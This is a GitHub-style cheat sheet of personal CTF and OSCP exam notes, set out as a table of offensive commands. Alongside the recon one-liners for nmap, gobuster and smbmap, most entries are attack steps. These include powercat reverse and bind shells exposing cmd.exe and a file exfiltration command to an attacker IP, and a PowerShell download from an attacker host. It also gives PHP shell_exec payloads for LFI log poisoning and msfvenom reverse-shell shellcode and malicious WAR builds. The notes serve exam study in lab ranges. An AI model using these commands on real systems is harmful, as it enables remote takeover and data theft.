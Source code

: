 # CTF Notes
A list of notes that I've compiled over time to help with CTF's and the OSCP exam.

## Commands
Description | Command
------------ | -------------
| Download PowerCat onto Windows | 			Invoke-WebRequest https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1 -OutFile ./powercat.ps1 |
| Exfiltrate fil via powercat | 			powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1 |
| Send a reverse shell via powercat | 		powercat -c 10.11.0.4 -p 443 -e cmd.exe  |
| Bind shell to powercat listener | 		powercat -l -p 443 -e cmd.exe |
| Create encrypted stand alone powercat payload | 	powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell. ps |
| Download file via powershell |  					powershell -c "(new-object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')" |
| Execute via powershell |  						wget.exe -V |
| Start bash script with | 					#!/bin/bash |
| Make a bash script executable | 			chmod +x script.sh |
| One liner to grep subdomains | 			grep -o '[^/]*\.megacorpone\.com' index.html \| sort -u > list.txt |
| Ping list of hosts in textfile | 			for url in $(cat list.txt); do host $url; done  |
| One liner to organize hosts in nmap scan | cat nmap-scan_10.11.1.1-254 \| grep 80 \| grep -v "Nmap" \| awk '{print $2}' |
| Take screenshot of hosts in nmap scan | 	for ip in $(cat nmap-scan_10.11.1.1-254 \| grep 80 \| grep -v "Nmap" \| awk '{print $2}'); do cutycapt --url=$ip --out=$ip.png;done |
| Use gobuster to find directories | 		gobuster dir --url=http://10.10.10.68 --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt |
| Mounting NFS folder (discover through nmap) |	sudo mount -o nolock 10.11.1.72:/home ~/home/ |
| Search nmap scripts | 					cat /usr/share/nmap/scripts/script.db  \| grep '"vuln"\\|"exploit"' |
| Aggrssive Nmap scan | 					sudo nmap -n -sS -vv -A -T4 10.10.10.3 |
| SMB map | 								smbmap -u "" -p "" -d WORKGROUP -H 10.10.10.3 |
| XSS testing characters | 					<>'"{}; |
| Directory traversal check | 				c:\windows\system32\drivers\etc\host |
| LFI payload for log injection | 			<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?> |
| LFT payload for injection via URL | 		data:text/plain,<?php echo shell_exec("dir") ?> #this will echo the output of the "dir" command |
| Xampp log location for LFI | 				c:\xampp\apache\logs\access.log&cmd=ipconfig |
| Buffer overflow pattern creater | 		msf-pattern_create -l 800 |
| Find offset of msf-pattern_create | 		msf-pattern_offset -l 800 -q 42306142 #that last number what filled the EIP from the buffer created with msf-pattern_create |
| Find op code equivalent of jmp esp | 		msf-nasm_shell |
| Show list of dll's in Immunity Debugger | !mona modules |
| Find all instances of jmp esp in dll | 	!mona find -s "\xff\xe4" -m "libspp.dll" |
| Generate shellcode with msfvenom | 		msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.223 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" |
| Tomcat malicious war file | 				msfvenom -p java/shell_reverse_tcp lhost=192.168.119.223 lport=4444 -f war -o pwn.war |
| Kali web shells | 						/usr/share/webshells/ |
| Host your own smb server | 				sudo python3 smbserver.py share ~/Documents/smb |